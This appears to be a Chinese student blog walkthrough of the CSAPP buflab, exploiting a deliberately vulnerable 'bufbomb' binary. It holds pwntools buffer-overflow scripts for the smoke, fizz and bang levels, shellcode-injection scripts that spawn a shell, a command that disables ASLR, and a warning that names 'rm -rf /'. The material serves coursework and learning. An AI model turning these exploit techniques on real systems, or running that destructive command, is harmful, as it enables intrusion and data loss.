



{==更新：鉴于大家只是听了一点课，对于PWN之类的一般可能一点概念都没有，并且之前一版的文章同学们表示一些名词太多。对此，我决定还是多润色一下这篇文章，然后，还请各位先看一下这些文章预习一下，就能更好地做实验了：==}

[栈介绍 - CTF Wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/stack-intro/)

[栈溢出原理 - CTF Wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/stackoverflow-basic/)

[基本 ROP - CTF Wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop/)

{==如果你连这些都不知道的话，可能也就不知道我在下面讲什么了...==}

开头惯例先膜一下大佬们：[@obliviate](https://cp32.github.io) [@Apeng](https://apeng.fun)

题目存档：[buflab-handout.tar](./problems/buflab-handout.tar)

## 实验要求
容我抄一下实验的PPT：

### 目标
> 实验攻击目标的程序为bufbomb。该程序中含有一个带有漏洞的getbuf()函数，它所调用的系统函数gets()未进行缓冲区溢出保护。其代码如下：

``` cpp
int getbuf() {
    char buf[12];
    Gets(buf);
    return 1;  
}

```

> 系统函数gets()从标准输入设备读字符串函数。以回车结束读取，不会判断上限，所以程序员应该确保buffer的空间足够大，以便在执行读操作时不发生溢出。

### 要求
> 目标程序bufbomb将执行test()，进而执行getbuf()，最终执行gets()。其中gets()会从标准输入设备读入数据。要求黑客同学利用所学知识，构造适当的输入数据，通过标准输入传递到目标程序，实现以下目的：

1. getbuf()返回时，不返回到test()，而是直接返回到指定的smoke()函数（该函数已经存在于bufbomb可执行文件中）。

2. getbuf()返回时，不返回到test()，而是直接返回到指定的fizz()函数（该函数已经存在于bufbomb可执行文件中），而且要求给fizz()函数传入一个黑客cookie值作为参数。其中cookie可以通过makecookie工具根据黑客姓名产生——“makecookie neo”(neo请替换成你的名字)。

3. getbuf()返回时，不返回到test()，而是直接返回到指定的band()函数（该函数已经存在于bufbomb可执行文件中），并且在返回到band()之前，先修改全局变量global_value为你的黑客cookie值（cookie值生成方法与上一要求相同）

### 操作
> 已知bufbomb中有test()函数将会调用getbuf()函数，并调用gets()从标准输入设备读入字符串。因此可以通过大于getbuf()中给出的数据缓冲区的字符串而破坏getbuf()栈帧，改变其返回地址——指向我们提供的攻击函数。

#### 具体操作
这个爱看不看，我下面写。

> 使用gdb和objdump分析其栈帧结构，确定test()调用getbuf()后返回地址与buf缓冲区相对位置关系；
>
> 根据目标攻击函数地址，构造出传给gets()的数据（用于填充缓冲区并破坏栈帧结构）。将所构造的数据每字节用16进制数字表示（文本字符串，例如0x3用两个字符表示为“03”），并保存在exploit.txt文件中。
>
> 将exploit.txt文本文件中的数据通过sendstring工具转换成char类型的数据——保存在exploit_raw.txt中。比如利用管道“cat exploit.txt | ./sendstring | ./exploit_raw.txt”或通过重定向“./sendstring < exploit.txt > exploit_raw.txt”
>
> 执行bufbomb，并将转换后的数据作为标准输入数据传入bufbomb。具体方法有多种，例如“cat exploit_raw.txt | bufbomb –t neo”、“bufbomb -t neo< exploit_raw.txt”。其中neo请替换成同学自己的名字。
>
> 将参数传入bufbomb时，也可指直接从exploit.txt文件开始，执行“$ cat exploit.txt | ./sendstring | ./bufbomb -t neo”。无需exploit_raw.txt的中转，直接由sendstring通过管道输入到bufbomb的标准输入设备中。

## 开始折腾
这个真的...很难讲清楚是怎么回事，我觉得主要还是自己调几次就会很直观了。

更新：你可以用很多种方式来做这个实验。我再废话几句好了。

现在实验是给出了一个二进制文件，它的函数调用存在漏洞，你可以利用这个漏洞破坏栈上的数据来，例如使函数返回到你所指定的函数上，甚至是获得目标主机的访问或是控制权（getshell）。有关详细信息，我还是建议查看[这里](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop/)。

### smoke()
不管上面怎么说，反正我只记住了要求。先run一下看看：



要求必须指定一个队伍名称。指定一个试试，然后随意输了一个字符串：


大概了解了。把bufbomb拖到IDA里，开始调试。

跟随程序流程，进入`launch()`：

``` c hl_lines="30"
int __usercall launch@<eax>(int a1@<eax>, int a2@<edx>)
{
  int v2; // ebx
  void *v3; // esp
  int result; // eax
  char v5; // [esp+1Bh] [ebp-3Dh]
  int savedregs; // [esp+58h] [ebp+0h]

  v2 = a1;
  v3 = alloca(a2 + (((unsigned __int16)&savedregs - 72) & 0x3FF8) + 15);
  memset((void *)((unsigned int)&v5 & 0xFFFFFFF0), 244, a2 + (((unsigned __int16)&savedregs - 72) & 0x3FF8));
  if ( !quiet )
  {
    if ( hexformat )
      printf("Type Hex string:");
    else
      printf("Type string:");
  }
  if ( v2 )
  {
    testn();
    result = success;
    if ( success )
      return result;
LABEL_8:
    result = puts("Better luck next time");
    success = 0;
    return result;
  }
  test();
  result = success;
  if ( !success )
    goto LABEL_8;
  return result;
}

```

随后跳进了`test()`：

``` c tab="C" hl_lines="5"
int test()
{
  signed int v0; // edx

  v0 = getbuf();
  if ( v0 != cookie )
    return printf("Dud: getbuf returned 0x%x\n", v0);
  printf("Boom!: getbuf returned 0x%x\n", v0);
  return validate(3);
}

```

``` tab="ASM"
.text:08048DA0 ; =============== S U B R O U T I N E =======================================
.text:08048DA0
.text:08048DA0 ; Attributes: bp-based frame
.text:08048DA0
.text:08048DA0                 public test
.text:08048DA0 test            proc near               ; CODE XREF: launch:loc_8049080↓p
.text:08048DA0
.text:08048DA0 var_4           = dword ptr -4
.text:08048DA0
.text:08048DA0                 push    ebp
.text:08048DA1                 mov     ebp, esp
.text:08048DA3                 sub     esp, 18h
.text:08048DA6                 mov     [ebp+var_4], 0DEADBEEFh
.text:08048DAD                 call    getbuf
.text:08048DB2                 mov     edx, eax
.text:08048DB4                 mov     eax, [ebp+var_4]
.text:08048DB7                 cmp     eax, 0DEADBEEFh
.text:08048DBC                 jz      short loc_8048DD0
.text:08048DBE                 mov     dword ptr [esp], offset aSabotagedTheSt ; "Sabotaged!: the stack has been corrupte"...
.text:08048DC5                 call    _puts
.text:08048DCA                 leave
.text:08048DCB                 retn
.text:08048DCB ; ---------------------------------------------------------------------------
.text:08048DCC                 align 10h
.text:08048DD0
.text:08048DD0 loc_8048DD0:                            ; CODE XREF: test+1C↑j
.text:08048DD0                 cmp     edx, ds:cookie
.text:08048DD6                 jz      short loc_8048DF0
.text:08048DD8                 mov     [esp+4], edx
.text:08048DDC                 mov     dword ptr [esp], offset aDudGetbufRetur ; "Dud: getbuf returned 0x%x\n"
.text:08048DE3                 call    _printf
.text:08048DE8                 leave
.text:08048DE9                 retn
.text:08048DE9 ; ---------------------------------------------------------------------------
.text:08048DEA                 align 10h
.text:08048DF0
.text:08048DF0 loc_8048DF0:                            ; CODE XREF: test+36↑j
.text:08048DF0                 mov     [esp+4], edx
.text:08048DF4                 mov     dword ptr [esp], offset aBoomGetbufRetu ; "Boom!: getbuf returned 0x%x\n"
.text:08048DFB                 call    _printf
.text:08048E00                 mov     dword ptr [esp], 3
.text:08048E07                 call    validate
.text:08048E0C                 leave
.text:08048E0D                 retn
.text:08048E0D test            endp
.text:08048E0D
.text:08048E0D ; ---------------------------------------------------------------------------
.text:08048E0E                 align 10h
```

再进入`getbuf()`：

``` c
signed int getbuf()
{
  char v1; // [esp+10h] [ebp-18h]

  Gets(&v1);
  return 1;
}

```

好了，重点来了。先来看看栈：

``` hl_lines="5 12"
FFFAF240  F7FB9FC0  ld_2.29.so:__libc_enable_secure+CC
FFFAF244  08048448  LOAD:byte_8048448
FFFAF248  00000000  
FFFAF24C  9C117200  
FFFAF250  00000000  
FFFAF254  F7D8C430  libc_2.29.so:__evoke_link_warning_getwd+B3F0
FFFAF258  00000000  
FFFAF25C  00000000
FFFAF260  08BBD580  [heap]:08BBD580
FFFAF264  FFFFFFFF  
FFFAF268  FFFAF288  [stack]:FFFAF288
FFFAF26C  08048DB2  test+12  
```

!!! tip
    [What is the x86 “ret” instruction equivalent to?](https://stackoverflow.com/questions/20129107/what-is-the-x86-ret-instruction-equivalent-to)

当前`v1`的地址是`0xFFFAF250`，所以需要一路覆盖到`0xFFFAF268`，一共4×7=28个`char`，然后将`smoke()`的地址`0x08048EB0`给到返回地址`0xFFFAF26C`上就可以了。于是有exp.py：

!!! tip
    注意，这里使用的工具是[pwntools](https://github.com/Gallopsled/pwntools)，这可以大幅提高你的效率。有关详细信息，你可以查看[文档](http://docs.pwntools.com/en/stable/)。在Linux系统上进行安装是比较简单的，只需要参考文档中的几句命令即可。另外，对于Windows系统，你可以利用WSL来使用它。你可以参考我过往的文章来进行安装，可以在左侧栏或是上方搜索框中找到。

``` python
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-t', 'domain'])
print(p.recv())
address = 0x08048EB0
payload = 'a' * 28 + p32(address)
p.sendline(payload)
print(p.recv())

```

可以得到结果：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 21751
Team: domain
Cookie: 0x6dfd74c3

Type string:Smoke!: You called smoke()

[*] Stopped process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' (pid 21751)

Process finished with exit code 0

```

可以看到已经输出了调用了`smoke()`的信息，再看看`smoke()`函数：

``` c
void __noreturn smoke()
{
  puts("Smoke!: You called smoke()");
  validate(0);
  exit(0);
}

```

应该已经成功。

!!! tip
    我知道总是会有人问我不想用pwntools怎么办。对于这一题来说，你可以准备好payload，就像这样：
    
    
    
    然后，这样子：
    
        cat ./payload | ./sendstring | ./bufbomb -t domain
    
    就可以得到：
    
    
    
    可以看到，成功地调用了`smoke()`。
    
    另外，接下来我是不会继续讲不用pwntools怎么办的。

### fizz()
这回需要调用一个函数并且传入参数。根据要求我们先来`makecookie`：


好，先留下domain的Cookie：

    0x6dfd74c3

备用。来看看`fizz()`：

``` c tab="C, decompiled by IDA"
void __cdecl __noreturn fizz(int a1)
{
  if ( a1 == cookie )
  {
    printf("Fizz!: You called fizz(0x%x)\n", a1);
    validate(1);
  }
  else
  {
    printf("Misfire: You called fizz(0x%x)\n", a1);
  }
  exit(0);
}

```

``` asm tab="ASM"
.text:08048E60 ; =============== S U B R O U T I N E =======================================
.text:08048E60
.text:08048E60 ; Attributes: noreturn bp-based frame
.text:08048E60
.text:08048E60 public fizz
.text:08048E60 fizz proc near
.text:08048E60
.text:08048E60 arg_0= dword ptr  8
.text:08048E60
.text:08048E60 push    ebp
.text:08048E61 mov     ebp, esp
.text:08048E63 sub     esp, 8
.text:08048E66 mov     eax, [ebp+8]
.text:08048E69 cmp     eax, ds:cookie
.text:08048E6F jz      short loc_8048E90
.text:08048E71 mov     [esp+4], eax
.text:08048E75 mov     dword ptr [esp], offset aMisfireYouCall ; "Misfire: You called fizz(0x%x)\n"
.text:08048E7C call    _printf
.text:08048E81
.text:08048E81 loc_8048E81:                            ; CODE XREF: fizz+4C↓j
.text:08048E81 mov     dword ptr [esp], 0              ; status
.text:08048E88 call    _exit
.text:08048E88 ; ---------------------------------------------------------------------------
.text:08048E8D align 10h
.text:08048E90
.text:08048E90 loc_8048E90:                            ; CODE XREF: fizz+F↑j
.text:08048E90 mov     [esp+4], eax
.text:08048E94 mov     dword ptr [esp], offset aFizzYouCalledF ; "Fizz!: You called fizz(0x%x)\n"
.text:08048E9B call    _printf
.text:08048EA0 mov     dword ptr [esp], 1
.text:08048EA7 call    validate
.text:08048EAC jmp     short loc_8048E81
.text:08048EAC fizz endp
.text:08048EAC
.text:08048EAC ; ---------------------------------------------------------------------------
.text:08048EAE align 10h
```

需要一个参数，所以可以有exp.py：

``` python hl_lines="5 6"
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-t', 'domain'])
print(p.recv())
address = 0x08048E60
payload = 'a' * 28 + p32(address) + p32(0x00000000) + p32(0x6dfd74c3)
p.sendline(payload)
print(p.recv())

```

可以当作就是在上次的基础上改了个函数地址`fizz`（`0x08048E60`），外加把参数放上去。你可能想知道为什么是这样，也可能想知道那个奇怪的0填充是什么，这个时候我们可以适当地在上面的脚本加`pause()`，然后用IDA`Attach to process...`，选中`bufbomb`就可以开始调试这个进程了。

!!! warning
    调试是很重要的。要是让我只看代码不调试，我可能几乎写不出payload。而且，当你的输入并没有得到预期的结果时，如果你不进行调试是很难发现问题所在的。关于如何进行调试，你很快就会在左侧栏或是上方搜索框中找到相关文章（或许吧）。

看看这次的栈：

``` hl_lines="10"
FFEC7250  61616161  
FFEC7254  61616161  
FFEC7258  61616161  
FFEC725C  61616161  
FFEC7260  61616161  
FFEC7264  61616161  
FFEC7268  61616161  
FFEC726C  61616161  
FFEC7270  00000000  
FFEC7274  6DFD74C3  
FFEC7278  FFEC7200  [stack]:FFEC7200
```

此时执行到`0x08048E66`：

``` asm hl_lines="4"
.text:08048E60 push    ebp
.text:08048E61 mov     ebp, esp
.text:08048E63 sub     esp, 8
.text:08048E66 mov     eax, [ebp+8]
.text:08048E69 cmp     eax, ds:cookie
.text:08048E6F jz      short loc_8048E90
```

这个时候`EBP`是`0xFFEC726C`，函数`fizz()`参数将从`0xFFEC7274`上取值，我们已经将Cookie覆盖上去了，所以没有问题：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 16217
Team: domain
Cookie: 0x6dfd74c3

Type string:Fizz!: You called fizz(0x6dfd74c3)

[*] Stopped process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' (pid 16217)

Process finished with exit code 0

```

你要是还在纠结那个32位的0填充是啥可以找个正常的函数边调边看看栈就知道啦，这和函数调用约定相关。另外，看了下面这关或许你也就知道了。

### bang()
这回是要先改变一个全局变量`global_value`的值，然后再跳转到`bang()`函数。为了改变全局变量，我们可以通过调用`Gets()`并将该全局变量地址传入，来对其进行修改，然后再跳转到`bang()`上就完成了。

另外，由于这个程序并没有禁止栈上执行，所以你想往缓冲区里写点汇编好像也没问题。但是，我是不会这样干的。

> 随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程**。所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。

首先找一下`global_value`的地址：

```
.bss:0804A1C4                 public global_value
.bss:0804A1C4 global_value    dd ?                    ; DATA XREF: bang+6↑r
```

记下地址：

    0x0804A1C4

第一步跳转到`Gets()`（`0x080489C0`）需要给这个参数。看起来和第二关很像，是不是？随后就需要输入值到`global_value`中了：

``` python
cookie = 0x6dfd74c3
p.sendline(p32(cookie))

```

别忘了最后还要跳转到`bang()`（`0x08048E10`）当中，所以就有exp.py：

``` python
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-t', 'domain'])
print(p.recv())
address = 0x080489C0
payload = 'a' * 28 + p32(address) + p32(0x08048E10) + p32(0x0804A1C4)
p.sendline(payload)
cookie = 0x6dfd74c3
p.sendline(p32(cookie))
print(p.recv())

```

可以得到：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 11026
Team: domain
Cookie: 0x6dfd74c3

Type string:Bang!: You set global_value to 0x6dfd74c3

[*] Stopped process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' (pid 11026)

Process finished with exit code 0

```

看来没有问题，我们来attach上去跟着看看运行得怎么样：

```
FF8DF26C  080489C0  Gets
FF8DF270  08048E10  bang
FF8DF274  0804A1C4  .bss:global_value
```

这是程序首次调用`Gets()`后的栈，它即将从`getbuf()`中返回到`Gets()`上，并以`global_value`的地址为参数。随后，第二次`Gets()`执行后，它将返回到`0x08048E10`上，即`bang()`。这个时候的栈是这样的：

```
FF8DF26C  61616161  
FF8DF270  08048E10  bang
FF8DF274  0804A1C4  .bss:global_value
```

它即将返回到`bang()`函数上。并且此时也可以看到`global_value`已经被改变：

```
0804A1C0  04 00 00 00 C3 74 FD 6D  00 00 00 00 00 00 00 00  .......m........
```

继续跟到`bang()`函数里：

``` c tab="C, decompiled by IDA"
void __noreturn bang()
{
  if ( global_value == cookie )
  {
    printf("Bang!: You set global_value to 0x%x\n", global_value);
    validate(2);
  }
  else
  {
    printf("Misfire: global_value = 0x%x\n", global_value);
  }
  exit(0);
}

```

``` asm tab="ASM"
.text:08048E10 ; =============== S U B R O U T I N E =======================================
.text:08048E10
.text:08048E10 ; Attributes: noreturn bp-based frame
.text:08048E10
.text:08048E10 public bang
.text:08048E10 bang proc near
.text:08048E10 push    ebp
.text:08048E11 mov     ebp, esp
.text:08048E13 sub     esp, 8
.text:08048E16 mov     eax, ds:global_value
.text:08048E1B cmp     eax, ds:cookie
.text:08048E21 jz      short loc_8048E40
.text:08048E23 mov     [esp+4], eax
.text:08048E27 mov     dword ptr [esp], offset aMisfireGlobalV ; "Misfire: global_value = 0x%x\n"
.text:08048E2E call    _printf
.text:08048E33
.text:08048E33 loc_8048E33:                            ; CODE XREF: bang+4C↓j
.text:08048E33 mov     dword ptr [esp], 0              ; status
.text:08048E3A call    _exit
.text:08048E3A ; ---------------------------------------------------------------------------
.text:08048E3F align 10h
.text:08048E40
.text:08048E40 loc_8048E40:                            ; CODE XREF: bang+11↑j
.text:08048E40 mov     [esp+4], eax
.text:08048E44 mov     dword ptr [esp], offset aBangYouSetGlob ; "Bang!: You set global_value to 0x%x\n"
.text:08048E4B call    _printf
.text:08048E50 mov     dword ptr [esp], 2
.text:08048E57 call    validate
.text:08048E5C jmp     short loc_8048E33
.text:08048E5C bang endp
```

没有问题。完结撒花。

!!! tip
    好吧我还是，再说几句关于不用pwntools的情况。由于有两次输入，似乎只调用一次`sendstring`没法搞定payload。于是就不得不这样：
    
        ./sendstring < ./payload > ./converted
        echo "c374fd6d" | ./sendstring >> ./converted
        ./bufbomb -t domain < ./converted
    
    第二行就是把第二次要输入给全局变量的Cookie塞到转换后的payload文件里。
    
    或许你有更好的办法，总之能搞定就行。不过我还是推荐用pwntools。

### Nitro mode
其实我们的实验没要求这个，我还没空去看这是干嘛的，昨晚在大佬的指导下搞了这个getshell：

``` python
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-n', '-t', 'domain'])
print(p.recv())
payload = asm(shellcraft.sh()) + 'a' * (0x20c - 44) + p32(0xFFFFB060)
p.sendline(payload)
p.interactive()
print(p.recv())

```

这个...由于没有关栈上执行，所以如果关闭了地址随机：

``` bash
echo 0 > /proc/sys/kernel/randomize_va_space 
```

就可以：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 14786
Team: domain

[*] Switching to interactive mode
Cookie: 0x6dfd74c3
ls
main.py  pwntools.iml  venv

```

成功得到主机的shell。啥？你说不知道我在干嘛？还不知道这能干嘛？你可以敲一条你知道的Linux命令试试。

!!! danger
    你已经得到了目标主机的shell，请不要在真机上或是没有打快照的虚拟机上运行类似`rm -rf /`的命令！这在没有`--no-preserve-root`参数之类的系统上将造成严重问题。

有关详细信息，请参考：[基本 ROP - ret2shellcode](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop/#ret2shellcode)

本菜鸡就不在这边现学现卖了...

#### 更新
大佬：

> 甚至不用关aslr就可以得到一个shell，有空再整

好，膜。（两分钟后）大佬：

> 突然想起来它`bss`应该也是可执行的，只要把shellcode写到`bss`就行了，不用那么麻烦

有道理。搞起：

``` python
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-n', '-t', 'domain'])
print(p.recv())
address = 0x080489C0
payload = 'a' * 0x20c + p32(address) + p32(0x0804A200 + 0x160) + p32(0x0804A200 + 0x160)
p.sendline(payload)
p.sendline(asm(shellcraft.sh()))

```

确实不需要关闭地址随机化也成功了：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 5702
Team: domain
Cookie: 0x6dfd74c3

[*] Switching to interactive mode
ls
main.py  pwntools.iml  venv

```

## 环境说明
+ 不用说，肯定有IDA。
+ pwntools，在Linux下很方便，我在IntelliJ IDEA（或者PyCharm）里写也很舒服。对于Windows，别忘了有WSL，你可以参考我的过往的文章来部署pwntools。

另外：

```
domain@linux-521z:~/IdeaProjects/pwntools> ./venv/bin/checksec ~/Documents/SZU/CSAPP/4/bufbomb
[*] '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```
